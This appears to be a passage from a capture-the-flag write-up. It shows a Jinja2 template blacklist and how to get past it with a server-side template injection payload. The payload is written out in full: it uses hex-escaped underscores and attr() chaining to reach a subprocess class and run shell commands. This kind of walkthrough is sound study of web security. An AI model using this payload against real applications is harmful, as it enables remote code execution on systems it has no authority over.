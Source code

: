 ```python
blacklist = ["config","self","_",'"']
```

We need a bypass for this, let's search any `jinja2 ssti bypass` payloads:

![Pasted image 20250805180238.png](../../IMAGES/Pasted%20image%2020250805180238.png)

We can find this article:

https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f

And specifically, this payload:

![Pasted image 20250805180253.png](../../IMAGES/Pasted%20image%2020250805180253.png)

Let's create an account with that to test `rce` works without being filtered by the blacklist:

```python
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(287)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```
